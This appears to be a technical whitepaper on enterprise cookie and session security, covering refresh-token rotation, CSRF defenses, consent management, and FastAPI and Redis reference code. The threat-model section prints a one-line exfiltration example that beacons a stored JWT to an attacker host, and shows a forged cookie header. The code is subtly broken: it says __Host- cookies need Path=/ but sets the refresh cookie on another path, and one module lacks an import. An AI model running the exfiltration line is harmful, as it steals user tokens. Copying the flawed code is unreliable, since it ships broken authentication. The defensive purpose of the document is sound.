


# Enterprise Cookie Architecture & Session Security Specification

> **Technical Whitepaper & Engineering Standard (RFC-Grade)**  
> **Classification:** Production Architecture & Security Standard  
> **Compliance Target:** OWASP ASVS 4.0 (Level 3), NIST SP 800-63B, RFC 6265bis, GDPR Art. 6/8/9, ePrivacy Directive 2002/58/EC  
> **Target Audience:** Principal Systems Architects, Staff Security Engineers, Infrastructure & Backend Leads  

---

## Table of Contents

1. [Abstract & System Boundaries](#1-abstract--system-boundaries)
2. [Threat Model & Adversary Capabilities (STRIDE / OWASP)](#2-threat-model--adversary-capabilities-stride--owasp)
3. [The Zero-Trust Client Storage Paradigm](#3-the-zero-trust-client-storage-paradigm)
4. [Dual-Token Session Architecture & State Machine](#4-dual-token-session-architecture--state-machine)
   - [4.1 Token Partitioning & Lifecycles](#41-token-partitioning--lifecycles)
   - [4.2 Refresh Token Rotation (RTR) with Cryptographic Lineage](#42-refresh-token-rotation-rtr-with-cryptographic-lineage)
   - [4.3 Automatic Reuse Detection (ARD) & Blast-Radius Containment](#43-automatic-reuse-detection-ard--blast-radius-containment)
5. [RFC 6265bis HTTP State Management Specification](#5-rfc-6265bis-http-state-management-specification)
   - [5.1 Security Attributes Matrix](#51-security-attributes-matrix)
   - [5.2 Host-Locked & Origin-Bound Cookie Prefixes (`__Host-` and `__Secure-`)](#52-host-locked--origin-bound-cookie-prefixes-__host--and-__secure-)
   - [5.3 CHIPS (Cookies Having Independent Partitioned State)](#53-chips-cookies-having-independent-partitioned-state)
6. [Anti-CSRF Defense-in-Depth Engineering](#6-anti-csrf-defense-in-depth-engineering)
   - [6.1 The Fallacy of Relying Solely on `SameSite=Lax`](#61-the-fallacy-of-relying-solely-on-samesitelax)
   - [6.2 Cryptographic Double-Submit Cookie Pattern with HMAC-SHA256 & Masking](#62-cryptographic-double-submit-cookie-pattern-with-hmac-sha256--masking)
7. [Enterprise Single Sign-On (SSO) & Multi-Domain Topologies](#7-enterprise-single-sign-on-sso--multi-domain-topologies)
8. [Data Privacy Governance & Consent Management Architecture](#8-data-privacy-governance--consent-management-architecture)
   - [8.1 Cookie Taxonomy Under GDPR & ePrivacy](#81-cookie-taxonomy-under-gdpr--eprivacy)
   - [8.2 Zero-Execution Determinism (CMP Enforcement Engine)](#82-zero-execution-determinism-cmp-enforcement-engine)
   - [8.3 Google Consent Mode v2 & IAB TCF 2.2 Wire Specifications](#83-google-consent-mode-v2--iab-tcf-22-wire-specifications)
9. [Reference Implementation (Production-Grade Code)](#9-reference-implementation-production-grade-code)
   - [9.1 Backend Engine: FastAPI, Secure Cookie Vault, & Anti-CSRF Middleware](#91-backend-engine-fastapi-secure-cookie-vault--anti-csrf-middleware)
   - [9.2 Distributed Token Rotation & Session Store: Redis Cluster](#92-distributed-token-rotation--session-store-redis-cluster)
   - [9.3 Frontend HTTP Engine: React / TypeScript Concurrent Mutex Interceptor](#93-frontend-http-engine-react--typescript-concurrent-mutex-interceptor)
10. [Edge Proxy Enforcement & Network Topology (Cloudflare / Envoy / AWS)](#10-edge-proxy-enforcement--network-topology-cloudflare--envoy--aws)
11. [Security Operations (SecOps), Auditing & Anomaly Telemetry](#11-security-operations-secops-auditing--anomaly-telemetry)
12. [Production Verification Audit & Hardening Checklist](#12-production-verification-audit--hardening-checklist)

---

## 1. Abstract & System Boundaries

In distributed enterprise web systems, identity federation and state management represent the primary attack surface for credential compromise, session hijacking, and regulatory non-compliance. While prototype applications frequently store authentication artifacts (e.g., JSON Web Tokens) within Web Storage APIs (`localStorage` / `sessionStorage`), this architecture is fundamentally broken under adversarial conditions.

This specification formalizes the engineering standard deployed by tier-1 technology firms (FAANG, Fortune 100 fintech, high-assurance enterprise SaaS). It establishes:
1. **A zero-trust client model** utilizing strictly scoped, host-locked, encrypted, and non-script-accessible HTTP transport cookies (`RFC 6265bis`).
2. **A hybrid dual-token state machine** decoupling high-throughput stateless verification (Access Tokens) from low-frequency stateful session revocation (Refresh Tokens with lineage tracking).
3. **Multi-layered defense-in-depth against cross-origin attacks**, pairing strict CORS origin validation, encrypted Double-Submit CSRF tokens, and modern browser cookie isolation boundaries.
4. **Deterministic privacy governance** complying with GDPR Article 6(1)(c)/(f), Article 8/9 (minors and sensitive biometric/health vectors), and the ePrivacy Directive.

```
+--------------------------------------------------------------------------------------------------+
|                                    ENTERPRISE ARCHITECTURE                                       |
|                                                                                                  |
|   +-------------------+        TLS 1.3 Strict HTTPS         +-------------------------------+    |
|   |   Client Engine   | ----------------------------------> |   Edge Gateway (Envoy/CDN)    |    |
|   |                   | <---------------------------------- |  - Strips Static Assets Ck    |    |
|   |  - Zero Token in  |   Cookies:                          |  - Validates TLS / HSTS       |    |
|   |    LocalStorage   |   - __Host-access_token             +-------------------------------+    |
|   |  - Memory Storage |   - __Host-refresh_token                           |                     |
|   |  - Mutex Queue    |   - XSRF-TOKEN                                     | Internal mTLS       |
|   +-------------------+                                                    v                     |
|                                                             +-------------------------------+    |
|                                                             |   Application Services        |    |
|                                                             |  - Timing-Safe CSRF Verify    |    |
|                                                             |  - Token Lineage Tree Check   |    |
|                                                             +-------------------------------+    |
|                                                                            |                     |
|                                                                            v                     |
|                                                             +-------------------------------+    |
|                                                             | Redis Cluster (Session Store) |    |
|                                                             |  - Atomic Lua Rotations       |    |
|                                                             |  - Instant Blast Revocation   |    |
|                                                             +-------------------------------+    |
+--------------------------------------------------------------------------------------------------+
```

---

## 2. Threat Model & Adversary Capabilities (STRIDE / OWASP)

The system boundary assumes an active network and application adversary with the following capabilities:
- **Malicious Script Execution (DOM Context):** The adversary can execute arbitrary JavaScript within the application origin via third-party supply-chain compromise (compromised npm dependency, dynamic CDN script injection) or reflected/stored Cross-Site Scripting (XSS).
- **Cross-Origin Request Dispatch:** The adversary controls an external origin (`https://attacker.com`) capable of inducing user-agent HTTP dispatch to the enterprise target origin.
- **Rogue Subdomain Ownership:** The adversary compromises or registers a sibling subdomain (e.g., `https://vulnerable.corp.domain.com` adjacent to `https://core.corp.domain.com`).
- **Passive and Active Network Interception:** Eavesdropping or MitM capabilities on non-TLS channels or intermediate proxies.

### Formal Threat Matrix & Countermeasure Mapping

| Threat Vector | Common Weakness Enumeration | Adversary Objective | Enterprise Architectural Countermeasure |
| :--- | :--- | :--- | :--- |
| **Token Exfiltration via XSS** | **CWE-79** | Read access/refresh tokens from storage to replay from an arbitrary client. | **`HttpOnly` Flag + Host Prefixes**. Tokens are completely isolated within browser C++ network stacks; `document.cookie` returns empty string for authentication identifiers. |
| **Cross-Site Request Forgery** | **CWE-352** | Force state-changing actions via ambient browser cookie credential transmission. | **`SameSite=Lax/Strict` + Cryptographic Double-Submit HMAC-SHA256 Token**. Strict rejection of requests lacking signed `X-CSRF-Token` headers. |
| **Subdomain Cookie Tossing** | **CWE-565** | Inject malicious session cookies from a compromised sibling subdomain. | **`__Host-` Cookie Prefix Specification**. Forces cookies to be host-only, prohibiting domain inheritance to or from sibling subdomains. |
| **Token Replay & Session Hijacking** | **CWE-294** | Intercept or clone a long-lived refresh token and maintain persistence. | **Cryptographic Refresh Token Rotation (RTR) + Automatic Reuse Detection (ARD)**. Any single duplicate token use revokes the entire user session tree. |
| **Session Fixation** | **CWE-384** | Pre-set session identifiers prior to user authentication. | **Session ID Regeneration**. The server issues new cryptographic session keys and invalidates pre-auth identifiers upon state transition. |
| **Header Injection / Leakage** | **CWE-113** | Eavesdrop on sensitive headers across microservice hops. | **Path Scoping**. `__Host-refresh_token` is scoped exclusively to `Path=/api/v1/auth/refresh`, never dispatched on general API calls. |

---

## 3. The Zero-Trust Client Storage Paradigm

A foundational architectural requirement in enterprise engineering is the complete elimination of persistent browser client storage (`localStorage`, `sessionStorage`, `IndexedDB`) for sensitive security tokens.

### Comparative Threat Analysis

```
+----------------------------+---------------------------------+-----------------------------------+
| DIMENSION                  | Web Storage API (localStorage)  | RFC 6265bis HttpOnly Cookies      |
+----------------------------+---------------------------------+-----------------------------------+
| Script Accessibility       | Full Read/Write via JS Runtime  | Zero Access (Isolated in C++ core)|
| Impact of Minor XSS Defect | Complete Account Takeover       | Session Replay Resisted / No Read |
| Automatic Wire Dispatch    | Manual (Header Injection)       | Native Engine Dispatch            |
| Scope Boundary             | Origin (Scheme + Host + Port)   | Origin + Host-Locked Path Guard   |
| Exfiltration Vector        | `fetch(attacker, {body: token})`| Blocked; impossible to serialize  |
| Transport Encryption       | Decoupled (Stored Plaintext)    | Enforced via `Secure` Attribute   |
+----------------------------+---------------------------------+-----------------------------------+
```

### The Inherent Vulnerability of Web Storage
`localStorage` provides no access control mechanism beyond the Same-Origin Policy (SOP). An adversary executing a single line of injected JavaScript can synchronously extract the credential:
```javascript
// Exfiltration primitive (1 line of unpreventable script execution)
navigator.sendBeacon('https://attacker.com/leak', localStorage.getItem('jwt_access_token'));
```

With modern enterprise applications depending on hundreds of third-party dependencies, browser extensions, and telemetry tags, the client runtime cannot be treated as a secure enclave. By utilizing `HttpOnly` and `Secure` cookies, the token is managed directly by the browser's native network subsystem. JavaScript running within the execution context cannot inspect, serialize, or exfiltrate the credential value.

---

## 4. Dual-Token Session Architecture & State Machine

Enterprise architectures decouple transaction authorization from identity lifecycle management. This is achieved via an **Asymmetric Dual-Token Model**:



### 4.1 Token Partitioning & Lifecycles

1. **Short-Lived Access Token (`AT`):**
   - **Lifespan:** 5 to 15 minutes ($300 \le \text{TTL} \le 900$ seconds).
   - **Format:** Cryptographically signed compact JWS (RFC 7515) or opaque 128-bit reference token.
   - **Storage:** Ephemeral JavaScript runtime memory (closure/variable) OR a host-locked cookie (`__Host-access_token`).
   - **Scope:** Broad (`Path=/`). Transported across general microservice endpoints.

2. **Long-Lived Refresh Token (`RT`):**
   - **Lifespan:** 7 to 30 days ($604800 \le \text{TTL} \le 2592000$ seconds).
   - **Format:** High-entropy cryptographically secure pseudo-random string (CSPRNG, minimum 256 bits).
   - **Storage:** Strictly confined to a host-locked cookie (`__Host-refresh_token`).
   - **Scope:** Narrowly restricted (`Path=/api/v1/auth/refresh`). **Under no circumstances is this cookie transmitted on standard API queries.**

---

### 4.2 Refresh Token Rotation (RTR) with Cryptographic Lineage

To prevent replay attacks and detect token cloning, every refresh operation **invalidates the presented refresh token and issues a new pair**. Tokens are structured as a lineage tree under a specific **Family ID**.

```mermaid
sequenceDiagram
    autonumber
    participant Client as User Agent (Browser)
    participant Edge as Edge Gateway / API
    participant Redis as Redis Cluster (Session Vault)
    participant SIEM as SecOps SIEM (Telemetry)

    Note over Client,Edge: Step 1: Normal Refresh Operation
    Client->>Edge: POST /api/v1/auth/refresh (Cookie: __Host-refresh_token = RT_1)
    Edge->>Redis: Atomic Fetch & Check Lineage (RT_1)
    Redis-->>Edge: Status: Valid (Family: F_101, Current: RT_1)
    Edge->>Redis: Invalidate RT_1, Register RT_2 (Family: F_101)
    Edge-->>Client: Set-Cookie: RT_2 (Path=/auth/refresh; HttpOnly; Secure)<br/>Set-Cookie: AT_2 (HttpOnly; Secure)

    Note over Client,Edge: Step 2: Adversary Attempts Replay with Leaked RT_1
    Client->>Edge: POST /api/v1/auth/refresh (Cookie: __Host-refresh_token = RT_1)
    Edge->>Redis: Atomic Fetch & Check Lineage (RT_1)
    Redis-->>Edge: Status: REVOKED / ALREADY CONSUMED!
    
    Note over Edge,SIEM: AUTOMATIC REUSE DETECTION TRIGGERED
    Edge->>Redis: PURGE ALL TOKENS FOR FAMILY F_101 (Instant Invalidation)
    Edge->>SIEM: Log Alert: "Session Hijack Detected: Token Reuse on Family F_101"
    Edge-->>Client: 403 Forbidden (Clear All Cookies)
```

### 4.3 Automatic Reuse Detection (ARD) & Blast-Radius Containment

When a refresh token $RT_k$ is presented to the authorization server:
1. The server queries the lineage record associated with the Token Family $\mathcal{F}$.
2. If $RT_k$ matches the active leaf node $RT_{\text{current}}$, the transition is legal:
   $$\mathcal{F}_{new} \leftarrow \mathcal{F} \cup \{RT_{k+1}\}, \quad \text{Status}(RT_k) \leftarrow \text{Consumed}$$
3. If $RT_k$ is marked as $\text{Consumed}$, it indicates that **two distinct actors possess the same credential** (the legitimate client and an eavesdropper). Because the server cannot deterministically identify which actor is legitimate, it assumes catastrophic compromise:
   $$\forall RT_i \in \mathcal{F}: \quad \text{Revoke}(RT_i)$$
   The user's active session is terminated globally across all devices or localized to the compromised device family, mitigating further lateral movement.

---

## 5. RFC 6265bis HTTP State Management Specification

Enterprise cookies must strictly adhere to the updated IETF RFC 6265bis specifications. Default configurations are systematically hardened.

### 5.1 Security Attributes Matrix

| Directive | Configuration | Enforcement Mechanism & Rationale |
| :--- | :--- | :--- |
| **`HttpOnly`** | `true` | The browser refuses to expose the cookie to `Document.cookie`, `WorkerGlobalScope`, or WebAssembly runtimes, mitigating script-based token harvesting. |
| **`Secure`** | `true` | The browser guarantees that the cookie is transmitted **only over TLS-encrypted sessions**. Prevents cleartext leakage across sniffing or protocol downgrade attacks. |
| **`SameSite`** | `Lax` or `Strict` | Governs cross-site request dispatch. `Strict` blocks ambient cookie attachment on all top-level cross-site navigations. `Lax` allows ambient delivery only on safe, top-level `GET` navigations. |
| **`Path`** | Custom Path Guard | Refresh cookies are restricted to `/api/v1/auth/refresh`. General API queries (`/api/v1/users`, `/api/v1/orders`) never emit the refresh credential over the wire. |
| **`Domain`** | *Omitted (Host-Only)* | Explicitly omitting `Domain` binds the cookie strictly to the fully qualified origin host, blocking automatic inheritance to subdomains. |
| **`Max-Age`** | Strict Integer (Seconds) | Explicit lifespan definition. Replaces legacy `Expires` format to eliminate client-server wall-clock drift issues. |

---

### 5.2 Host-Locked & Origin-Bound Cookie Prefixes (`__Host-` and `__Secure-`)

Standard cookie specifications allow sibling subdomains (e.g., `staging.platform.com`) to set cookies targeting parent domains (`platform.com`), enabling **Cookie Tossing** and session overwrite attacks. Modern browsers mitigate this via standardized prefix assertions.

#### The `__Host-` Directive (The Enterprise Standard)
A cookie utilizing the `__Host-` prefix is rejected by the browser unless it satisfies **all** of the following invariant conditions:
1. It is transmitted over an authenticated, secure connection (`Secure` attribute present).
2. It does not define a `Domain` attribute (guaranteeing it remains strictly Host-Only).
3. It explicitly specifies `Path=/`.

```http
HTTP/1.1 200 OK
Set-Cookie: __Host-access_token=v4.local.AG...; Secure; HttpOnly; SameSite=Lax; Path=/; Max-Age=900
Set-Cookie: __Host-refresh_token=sec_c7f2...; Secure; HttpOnly; SameSite=Strict; Path=/api/v1/auth/refresh; Max-Age=604800
```

If an attacker on `https://insecure-subdomain.platform.com` attempts to forge:
```http
Set-Cookie: __Host-access_token=malicious; Domain=platform.com; Path=/
```
The browser's network stack rejects the header outright, completely eliminating sibling-subdomain cookie overwrite vectors.

---

### 5.3 CHIPS (Cookies Having Independent Partitioned State)

For enterprise micro-frontends or embedded cross-site widgets (e.g., embedded billing components, authentication frames), third-party cookie phaseouts in major browser engines necessitate the `Partitioned` attribute:

```http
Set-Cookie: __Host-session=xyz; Secure; HttpOnly; SameSite=None; Path=/; Partitioned;
```
This partitions the cookie storage key by top-level site (`(https://parent-site.com, https://auth-vendor.com)`), preventing cross-site tracking while preserving isolated state for legitimate enterprise embeds.

---

## 6. Anti-CSRF Defense-in-Depth Engineering

### 6.1 The Fallacy of Relying Solely on `SameSite=Lax`

While modern Chromium engines set `SameSite=Lax` by default, relying exclusively on this attribute is considered an architectural anti-pattern in high-assurance environments:
1. **The Lax+POST 2-Minute Window:** Chromium implementations implement a 2-minute "Lax-after-top-level-navigation" grace period for cookies lacking explicit attributes, opening transient attack windows.
2. **Legacy User Agents:** Outdated mobile webviews, corporate embedded browsers, and legacy user agents fail to enforce `SameSite` parsing, falling back to ambient delivery (`SameSite=None`).
3. **Subdomain Traversal:** If a sibling subdomain within the same registrable domain is compromised, cross-site requests originating from it are treated as **same-site**, bypassing `SameSite` protections entirely.

---

### 6.2 Cryptographic Double-Submit Cookie Pattern with HMAC-SHA256 & Masking

Enterprise systems combine `SameSite` cookies with a **Stateful or Stateless Double-Submit CSRF Protection System**:

```
Client Browser                         Application Server
      |                                        |
      | --- 1. Login (GET/POST /auth) --------> |
      |                                        | Generate session_id
      |                                        | Compute: HMAC-SHA256(session_id, ServerSecret)
      | <-- 2. Set-Cookie: XSRF-TOKEN -------- | Emit un-masked token as cookie
      |                                        |
      | --- 3. Mutation (POST/PUT/DELETE) ---> | Read header 'X-CSRF-Token'
      |        Header: X-CSRF-Token: <token>   | Read cookie 'XSRF-TOKEN'
      |        Cookie: XSRF-TOKEN: <token>     | Verify Cryptographic Equality & HMAC
      |                                        | Valid? -> Allow Execution
```

#### Cryptographic Token Derivation
To prevent BREACH compression attacks and token harvesting, the client-facing CSRF token is masked per request using an entropy pad:
$$\text{MaskedToken} = \text{Pad} \mathbin{\Vert} (\text{Token} \oplus \text{Hash}(\text{Pad}))$$
The server unmasks the token using the embedded pad, then performs a constant-time cryptographic verification:
$$\text{Verify}(S, T) \iff \text{CryptoCompare}\Big(\text{HMAC}_{K}(S), \, T\Big) == \text{True}$$

---

## 7. Enterprise Single Sign-On (SSO) & Multi-Domain Topologies

In multi-application enterprises (`auth.corp.com`, `finance.corp.com`, `hr.corp.com`), cookies cannot natively traverse disparate second-level domains without compromising isolation. Enterprise systems implement the **Identity Provider Gateway (OIDC / OAuth 2.0 with PKCE)** pattern:



**Key Takeaways:**
- **Zero Cross-Domain Cookie Spillage:** Cookies are never scoped with broad parent domains (`Domain=.corp.com`) unless strict organizational boundaries prevent internal multi-tenancy risks.
- **Backchannel Exchange:** Ephemeral authorization codes are single-use, cryptographically verified with PKCE (RFC 7636), and exchanged via secure backchannel server-to-server networks.

---

## 8. Data Privacy Governance & Consent Management Architecture

For systems processing user data—particularly minors and health/athletic performance metrics (GDPR Art. 8 & 9)—the cookie layer must enforce a **Zero-Execution Determinism** policy.

### 8.1 Cookie Taxonomy Under GDPR & ePrivacy

```
                                  ALL COOKIES / STORAGE
                                            |
               +----------------------------+----------------------------+
               |                                                         |
         STRICTLY NECESSARY                                      NON-ESSENTIAL
    (Exempt from Consent under ePrivacy)                    (Explicit Opt-in Mandated)
               |                                                         |
     +---------+---------+                             +-----------------+-----------------+
     |                   |                             |                                   |
Authentication       Anti-CSRF                    Analytics / RUM                     Marketing
(__Host-auth)      (XSRF-TOKEN)                   (PostHog / GA4)                 (Meta / Ads Pixel)
Legal: Art. 6(1)(f) Legal: Art. 6(1)(f)           Legal: Art. 6(1)(a)             Legal: Art. 6(1)(a)
Consent: NO         Consent: NO                   Consent: MANDATORY              Consent: MANDATORY
Execution: Immediate Execution: Immediate         Execution: Post-Consent         Execution: Post-Consent
```

### 8.2 Zero-Execution Determinism (CMP Enforcement Engine)
An enterprise application must strictly adhere to the following sequence:
1. **Initial Page Load:** Zero non-essential script tags, tracker pixels, or measurement SDKs may be present in the initial HTML response or executed dynamically.
2. **Deterministic Interception:** A Consent Management Platform (CMP) evaluates whether a valid, cryptographically unexpired consent record exists.
3. **Dynamic Script Hydration:** Only upon the receipt of an unambiguous affirmative action (`Opt-In`) are third-party analytical or marketing scripts injected into the DOM.

### 8.3 Google Consent Mode v2 & IAB TCF 2.2 Wire Specifications
Enterprise platforms communicate consent state via standard signals across edge gateways and frontend layers:

```javascript
// Hardened Default Configuration - Executed in <head> prior to any vendor scripts
window.dataLayer = window.dataLayer || [];
function gtag(){ dataLayer.push(arguments); }

// DENY ALL CHANNELS BY DEFAULT
gtag('consent', 'default', {
  'ad_storage': 'denied',
  'analytics_storage': 'denied',
  'ad_user_data': 'denied',
  'ad_personalization': 'denied',
  'wait_for_update': 500 // Milliseconds
});
```

---

## 9. Reference Implementation (Production-Grade Code)

### 9.1 Backend Engine: FastAPI, Secure Cookie Vault, & Anti-CSRF Middleware

The following Python implementation provides production-grade cookie setting, cryptographic verification, and Starlette middleware enforcement.

```python
# app/core/security_cookies.py
"""
Production Cookie Vault & Anti-CSRF Engine
Conforms to RFC 6265bis, OWASP ASVS 4.0 Level 3, and NIST SP 800-63B.
"""

import os
import hmac
import hashlib
import secrets
from typing import Optional, Tuple
from fastapi import Response, Request, HTTPException, status
from starlette.middleware.base import BaseHTTPMiddleware
from starlette.responses import JSONResponse

IS_PRODUCTION = os.getenv("ENVIRONMENT", "development").lower() == "production"
CSRF_SECRET_KEY = os.getenv("CSRF_SECRET_KEY")

if not CSRF_SECRET_KEY:
    if IS_PRODUCTION:
        raise RuntimeError("FATAL: CSRF_SECRET_KEY must be configured in production environments.")
    CSRF_SECRET_KEY = "dev-insecure-secret-key-change-immediately"

class CookieSecurityConfig:
    # RFC 6265bis Host-Prefix Enforcement
    ACCESS_TOKEN_COOKIE = "__Host-access_token" if IS_PRODUCTION else "access_token"
    REFRESH_TOKEN_COOKIE = "__Host-refresh_token" if IS_PRODUCTION else "refresh_token"
    CSRF_COOKIE_NAME = "XSRF-TOKEN"

    # Lifespan Parameters (Seconds)
    ACCESS_TOKEN_TTL = 15 * 60         # 15 minutes
    REFRESH_TOKEN_TTL = 7 * 86400      # 7 days
    CSRF_TOKEN_TTL = 7 * 86400         # Synchronized with refresh lifecycle

    REFRESH_PATH = "/api/v1/auth/refresh"


def generate_cryptographic_csrf_pair(session_id: str) -> Tuple[str, str]:
    """
    Generates a cryptographically signed CSRF token pair.
    Returns: (raw_cookie_value, client_header_value)
    """
    random_entropy = secrets.token_hex(16)
    payload = f"{session_id}:{random_entropy}"
    signature = hmac.new(
        CSRF_SECRET_KEY.encode("utf-8"),
        payload.encode("utf-8"),
        hashlib.sha256
    ).hexdigest()
    
    token = f"{payload}:{signature}"
    return token, token


def verify_csrf_token(cookie_token: str, header_token: str) -> bool:
    """
    Performs constant-time verification of the Double-Submit CSRF Token.
    """
    if not cookie_token or not header_token:
        return False
        
    # Constant-time comparison between cookie and header
    if not hmac.compare_digest(cookie_token, header_token):
        return False

    try:
        parts = header_token.split(":")
        if len(parts) != 3:
            return False
            
        session_id, entropy, signature = parts
        expected_payload = f"{session_id}:{entropy}"
        expected_sig = hmac.new(
            CSRF_SECRET_KEY.encode("utf-8"),
            expected_payload.encode("utf-8"),
            hashlib.sha256
        ).hexdigest()

        return hmac.compare_digest(signature, expected_sig)
    except Exception:
        return False


def set_enterprise_auth_cookies(
    response: Response,
    access_token: str,
    refresh_token: str,
    session_id: str
) -> None:
    """
    Enforces RFC 6265bis host-locked, encrypted, path-scoped cookies.
    """
    # 1. Access Token: High-throughput API boundary
    response.set_cookie(
        key=CookieSecurityConfig.ACCESS_TOKEN_COOKIE,
        value=access_token,
        max_age=CookieSecurityConfig.ACCESS_TOKEN_TTL,
        expires=CookieSecurityConfig.ACCESS_TOKEN_TTL,
        path="/",
        secure=IS_PRODUCTION,
        httponly=True,
        samesite="lax"
    )

    # 2. Refresh Token: Strictly scoped to the rotation endpoint
    response.set_cookie(
        key=CookieSecurityConfig.REFRESH_TOKEN_COOKIE,
        value=refresh_token,
        max_age=CookieSecurityConfig.REFRESH_TOKEN_TTL,
        expires=CookieSecurityConfig.REFRESH_TOKEN_TTL,
        path=CookieSecurityConfig.REFRESH_PATH,
        secure=IS_PRODUCTION,
        httponly=True,
        samesite="strict"
    )

    # 3. Anti-CSRF Token: Client-accessible for Double-Submit Header injection
    csrf_cookie_val, _ = generate_cryptographic_csrf_pair(session_id)
    response.set_cookie(
        key=CookieSecurityConfig.CSRF_COOKIE_NAME,
        value=csrf_cookie_val,
        max_age=CookieSecurityConfig.CSRF_TOKEN_TTL,
        expires=CookieSecurityConfig.CSRF_TOKEN_TTL,
        path="/",
        secure=IS_PRODUCTION,
        httponly=False,  # Deliberate: Must be readable by frontend JS for X-CSRF-Token header
        samesite="lax"
    )


def clear_enterprise_auth_cookies(response: Response) -> None:
    """
    Invalidates all stateful cookies on logout or breach containment.
    """
    response.delete_cookie(key=CookieSecurityConfig.ACCESS_TOKEN_COOKIE, path="/")
    response.delete_cookie(key=CookieSecurityConfig.CSRF_COOKIE_NAME, path="/")
    response.delete_cookie(key=CookieSecurityConfig.REFRESH_TOKEN_COOKIE, path=CookieSecurityConfig.REFRESH_PATH)


class EnterpriseCSRFMiddleware(BaseHTTPMiddleware):
    """
    Enforces Double-Submit CSRF Header verification on mutative HTTP operations.
    """
    SAFE_METHODS = frozenset({"GET", "HEAD", "OPTIONS", "TRACE"})
    EXEMPT_PATHS = frozenset({"/api/v1/auth/login", "/api/v1/auth/register"})

    async def dispatch(self, request: Request, call_next):
        if request.method in self.SAFE_METHODS or request.url.path in self.EXEMPT_PATHS:
            return await call_next(request)

        cookie_token = request.cookies.get(CookieSecurityConfig.CSRF_COOKIE_NAME)
        header_token = request.headers.get("X-CSRF-Token")

        if not cookie_token or not header_token:
            return JSONResponse(
                status_code=status.HTTP_403_FORBIDDEN,
                content={"error": "CSRF_TOKEN_MISSING", "detail": "Required CSRF security context not provided."}
            )

        if not verify_csrf_token(cookie_token, header_token):
            return JSONResponse(
                status_code=status.HTTP_403_FORBIDDEN,
                content={"error": "CSRF_TOKEN_INVALID", "detail": "Cryptographic CSRF assertion failed."}
            )

        return await call_next(request)
```

---

### 9.2 Distributed Token Rotation & Session Store: Redis Cluster

Atomic Redis script execution ensures thread-safe, race-condition-free token rotations.

```python
# app/services/session_vault.py
import redis.asyncio as redis
import hashlib
import json
import time

redis_client = redis.from_url(os.getenv("REDIS_URL", "redis://localhost:6379/0"), decode_responses=True)

# Lua script to perform atomic token validation and rotation
ATOMIC_ROTATION_LUA = """
local family_key = KEYS[1]
local presented_token_hash = ARGV[1]
local new_token_hash = ARGV[2]
local ttl = tonumber(ARGV[3])
local now = ARGV[4]

local current_leaf = redis.call('HGET', family_key, 'current_leaf')

if not current_leaf then
    return -1 -- Session family does not exist (Revoked or Expired)
end

if current_leaf ~= presented_token_hash then
    -- REUSE DETECTED: Token presented is NOT the active leaf!
    redis.call('DEL', family_key)
    return -2 -- Catastrophic compromise: Entire family destroyed
end

-- Valid Rotation: Advance leaf and mark old token as consumed
redis.call('HSET', family_key, 'current_leaf', new_token_hash)
redis.call('HSET', family_key, 'last_rotated', now)
redis.call('SADD', family_key .. ':consumed', presented_token_hash)
redis.call('EXPIRE', family_key, ttl)
redis.call('EXPIRE', family_key .. ':consumed', ttl)

return 1 -- Success
"""

class DistributedSessionVault:
    @staticmethod
    def hash_token(token: str) -> str:
        return hashlib.sha256(token.encode('utf-8')).hexdigest()

    @classmethod
    async def rotate_refresh_token(cls, user_id: str, family_id: str, presented_token: str, new_token: str) -> int:
        family_key = f"auth:family:{user_id}:{family_id}"
